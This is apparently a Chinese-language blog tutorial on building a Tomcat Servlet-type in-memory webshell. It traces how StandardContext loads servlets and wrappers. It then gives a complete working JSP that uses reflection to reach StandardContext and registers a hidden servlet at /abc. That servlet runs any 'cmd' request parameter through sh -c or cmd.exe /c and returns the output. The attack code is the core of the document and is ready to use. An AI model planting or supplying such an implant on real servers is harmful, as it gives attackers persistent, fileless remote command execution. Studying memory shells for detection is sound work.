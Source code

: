 # Tomcat-Servlet型内存马

## 简单配置一个Servlet

在web.xml添加

```xml
<servlet>
<servlet-name>TestServlet</servlet-name>
<servlet-class>test.TestServlet</servlet-class>
</servlet>

<servlet-mapping>
<servlet-name>TestServlet</servlet-name>
<url-pattern>/kaixin</url-pattern>
</servlet-mapping>
```

随便写一个Servlet

```Java
public class TestServlet extends HttpServlet {
public void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {        PrintWriter writer = response.getWriter();
writer.println("hello");
}
```

## 断点调试

在org.apache.catalina.core.StandardContext#loadServlet下断点看看怎么加载一个servlet的我们才能写内存马

先回溯到`org/apache/catalina/core/StandardContext.java`，虽然没啥多余的意义，但是我们在这里看到了确实是先加载完Listener和Filter之后，才装载Servlet

![](img/1.png)



前面已经完成了将所有 servlet 添加到 context 的 children 中，this.findChildren()即把所有Wapper（负责管理Servlet）传入loadOnStartup()中处理，可想而知loadOnStartup()就是负责动态添加Servlet的一个函数

可以看到下面图中首先获取Context下所有的Wapper类，并获取到每个Servlet的启动顺序，选出 >= 0 的项加载到一个存放Wapper的list中

![](img/2.png)

在每个Servlet的启动顺序在web.xml中，如果没有声明 load-on-startup 属性（默认为-1），则该Servlet不会被动态添加到容器：

然后对每个wapper进行装载

![](img/3.png)

装载所有的 Servlet 之后，就会根据具体请求进行初始化、调用、销毁一系列操作： 

```
装载：启动服务器时加载Servlet的实例

初始化：web服务器启动时或web服务器接收到请求时，或者两者之间的某个时刻启动。初始化工作有init()方法负责执行完成

调用：即每次调用Servlet的service()，从第一次到以后的多次访问，都是只是调用doGet()或doPost()方法（doGet、doPost内部实现，具体参照HttpServlet类service()的重写）

销毁：停止服务器时调用destroy()方法，销毁实例
```

一步步调试很麻烦，网上看到这篇文章https://mp.weixin.qq.com/s/YhiOHWnqXVqvLNH7XSxC9w找到了启发

直接查看添加一个servlet后StandardContext的变化

![](img/4.png)

一个child对应一个封装了Servlet的StandardWrapper对象，其中有servlet的名字跟对应的类

![](img/5.png)

对应了配置中的

```xml
<servlet-mapping>
<servlet-name>TestServlet</servlet-name>
<url-pattern>/kaixin</url-pattern>
</servlet-mapping>
```

所以Servlet型内存Webshell的主要步骤如下：

- 创建恶意Servlet
- 用Wrapper对其进行封装
- 添加封装后的恶意Wrapper到StandardContext的children当中
- 添加ServletMapping将访问的URL和Servlet进行绑定

## demo



```jsp
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="java.io.PrintWriter" %>
<%!
    Servlet servlet = new Servlet() {
        @Override
        public void init(ServletConfig servletConfig) throws ServletException {

        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
            String cmd = servletRequest.getParameter("cmd");
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\a");
            String output = s.hasNext() ? s.next() : "";
            PrintWriter out = servletResponse.getWriter();
            out.println(output);
            out.flush();
            out.close();
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {

        }
    };
%>
<%
    // 一个小路径快速获得StandardContext
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext stdcontext = (StandardContext) req.getContext();
%>
<%
    Wrapper newWrapper = stdcontext.createWrapper();
    String name = servlet.getClass().getSimpleName();
    newWrapper.setName(name);
    newWrapper.setLoadOnStartup(1);
    newWrapper.setServlet(servlet);
    newWrapper.setServletClass(servlet.getClass().getName());
%>
<%
    // url绑定
    stdcontext.addChild(newWrapper);
    stdcontext.addServletMappingDecoded("/abc", name);
%>
```

## 测试

先访问jsp注入servlet内存马

![](img/6.png)

接下来访问路由成功弹出计算器

![](img/7.png)